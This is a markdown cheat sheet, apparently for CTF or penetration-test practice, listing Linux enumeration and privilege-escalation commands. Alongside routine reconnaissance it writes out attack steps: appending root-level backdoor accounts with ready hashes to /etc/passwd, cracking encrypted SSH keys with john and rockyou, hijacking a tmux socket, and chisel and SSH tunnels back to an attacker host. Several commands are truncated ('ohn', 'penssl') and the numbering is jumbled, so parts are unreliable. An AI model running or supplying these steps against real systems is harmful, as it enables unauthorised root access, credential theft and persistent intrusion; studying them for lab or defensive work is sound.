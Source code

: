 ## INTERNAL RECONNAISANCE
1.  Enumerating the operating system version and architecture
`cat /etc/issue`
`cat /etc/*-release*`
`uname -a`

2. Enumerating processes and services
`ps aux`

3. Enumerating Networking Information
`ip a`
`/sbin/route`
`ss -anp`

4. Enumerating Firewall status and rules
`grep -Hs iptables /etc/*`

5. Enumerating scheduled tasks
`cat /etc/crontab`
`ls -lah /etc/cron*`

6. Enumerating installed applications and patch levels
`dpkg -l`

7. Enumerating Readable/Writable Files and Directories
`find / -writable -type d 2>/dev/null`

8. Enumerating unmounted disks
`cat /etc/fstab`
`mount`
`/bin/lsblk`
`df -T`
`fdisk /dev/sdX -l`
`parted /dev/sdX -l`

9. Enumerating Device drivers and kernel modules
`lsmod`
`/sbin/modinfo libata`

10. Enumerating binaries that autoelevate 
`find / -perm -u=s -type f 2>/dev/null`

11. Insecure File Permissions

- CRON
`grep "CRON" /var/log/cron.log`

- /etc/passwd
`openssl passwd evil`
`echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd`

12. Finding specific folder
`find / -type d -name "dir-name-here" 2>/dev/null`

13. Look for user capabilities 

```
getcap -r / 2>/dev/null
```

10. Port-Forwarding or SSH Tunneling

 a. ./chisel client 10.10.14.21:8080 R:631:127.0.0.1:631 -- target machine

    ./chisel server --reverse -- host machine
    
 b. ssh user@ip -D 1080 -- forward all traffics on localhost port 1080

    edit /etc/proxychains.conf, add SOCKS 127.0.0.1 1080 

    ssh user@ip -L xxxx.127.0.0.1:xxxx 

    proxychains <command>

 c.  Port forwarding multiple hosts, ssh from kali to A, from A ssh to B, and from B ssh to your kali, **NOTE: edit your proxychains foy your desired ports**
`ssh -N -R \*:5050 kali@YOURIP`

11. Find a text file 
`find / -name "network-secret.txt"`

1. Attach tmux session

 `/usr/bin/tmux -S /.devs/dev_sess`

 3. Decrypt id_rsa key with password

   `/usr/share/john/ssh2john.py id_rsa.encrypted > id_rsa_ssh2john`

   `ohn --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_ssh2john`

   `penssl rsa -in hype_key_encrypted -out hype_key_decrypted`

 4. Finding SUID binaries

  `find / -perm -4000 2>/dev/null`
   
 5. Sudo privileges to run a binary or script to WRITE on file 
 -  Create a password using openssl
 ```
 openssl passwd -1 -salt qwaszx 123456
 ```
 -  Add the following to /etc/passswd
 ```
 qwaszx:$1$qwaszx$fqgpAA/cwVMPvvPGJkasj1:0:0::/root:/bin/bash
 ```
 - Add on the etc/passwd if the second command does not work
 `qwaszx:$1$qwaszx$fqgpAA/cwVMPvvPGJkasj1:1001:1001:qwaszx:/home/qwaszx:/bin/bash`
 
 6. Find writable files
 ```
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

7. Creating an http server.
- php 
`php -S 0.0.0.0:8000`

- ruby
` ruby -run -e httpd . -p 9000`

- busybox
`busybox httpd -f -p 10000`



 
 
